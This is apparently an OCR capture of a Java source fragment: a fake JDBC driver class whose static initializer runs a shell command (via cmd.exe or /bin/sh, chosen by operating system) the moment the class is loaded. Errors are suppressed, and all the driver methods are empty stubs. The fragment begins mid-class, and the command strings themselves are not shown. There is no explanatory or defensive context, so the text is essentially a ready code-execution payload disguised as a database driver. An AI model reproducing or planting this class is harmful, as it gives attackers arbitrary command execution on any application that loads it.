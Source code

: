 ```java
    protected static  String cmd;

    static {
        if( System.getProperty("os.name").toLowerCase().contains("windows") ){
            shell = "cmd.exe";
            args = "/c";
            cmd = WindowsCmd;
        } else {
            shell = "/bin/sh";
            args = "-c";
            cmd = LinuxCmd;
        }
        try{
            Runtime.getRuntime().exec(new String[] {shell, args, cmd});
        } catch(Exception ignored) {
        }
    }

    @Override
    public Connection connect(String url, Properties info) throws SQLException {
        return null;
    }

    @Override
    public boolean acceptsURL(String url) throws SQLException {
        return false;
    }

    @Override
    public DriverPropertyInfo[] getPropertyInfo(String url, Properties info) throws SQLException {
        return new DriverPropertyInfo[0];
    }

    @Override
    public int getMajorVersion() {
        return 0;
    }

    @Override
    public int getMinorVersion() {
        return 0;
    }

    @Override
    public boolean jdbcCompliant() {
        return false;
    }

    @Override
    public Logger getParentLogger() throws SQLFeatureNotSupportedException {
        return null;
    }
}
```
